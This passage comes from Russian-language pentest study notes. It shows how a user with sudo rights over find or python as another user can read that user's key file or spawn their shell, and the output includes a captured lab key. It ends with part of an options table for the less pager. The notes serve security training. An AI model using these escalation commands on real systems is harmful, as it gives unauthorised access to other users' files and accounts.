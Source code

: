 > Вывод `/usr/bin/find` от пользователя `victim`



```bash
$ sudo -u victim /usr/bin/find /home/victim/key.txt -exec cat {} \;
```

> Запуск `cat` для файла `/home/victim/key.txt` от пользователя `victim`
>
> `{}` - В эти скобочки подставляется `/home/victim/key.txt`



```bash
$ sudo -u victim /usr/bin/find -exec bash \;
```

> Запуск `bash` от пользователя `victim`, т.е мы логинимся через `victim`



### Пример 2

```bash
$ sudo -l
[sudo] password for pentesterlab: 
Matching Defaults entries for pentesterlab on 7ae0cf5ac882:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User pentesterlab may run the following commands on 7ae0cf5ac882:
    (victim) /usr/bin/python
```

```bash
$ sudo -u victim python
>>> import os
>>> os.system('cat /home/victim/key.txt')
KEY-KEY-KEY-KEY
```

---

## Less

Утилита для чтения больших файлов, позволяет, в отличии от `more`, перематывать текст не только вперёд, но и назад, осуществлять поиск в обоих направлениях, переходить сразу в конец или в начало файла.

### Опции

|    -a    | --search-skip-screen  | Не осуществлять поиск в тексте, который в данный момент отображен на экране |
| :------: | :-------------------: | ------------------------------------------------------------ |
|   -bn    |      --buffers=n      | Задать размер буфера памяти                                  |
|    -c    |    --clear-screen     | Листать текст, полностью стирая содержимое экрана (построчная прокрутка работать не будет) |
| -Dxcolor |    --color=xcolor     | Задать цвет отображаемого текста                             |
|    -E    |     --QUIT-AT-EOF     | Выйти, когда утилита достигнет конца файла                   |
|    -e    |     --quit-at-eof     | Выйти, когда утилита второй раз достигнет конца файла        |
|    -F    | --quit-if-one-screen  | Выйти, если содержимое файла помещается на одном экране      |
|    -f    |        --force        | Открыть специальный файл                                     |
|   -hn    |  --max-back-scroll=n  | Задать максимальное количество строк для прокрутки назад     |
|   -yn    |  --max-forw-scroll=n  | Задать максимальное количество строк для прокрутки вперёд    |
|    -i    |     --ignore-case     | Игнорировать регистр                                         |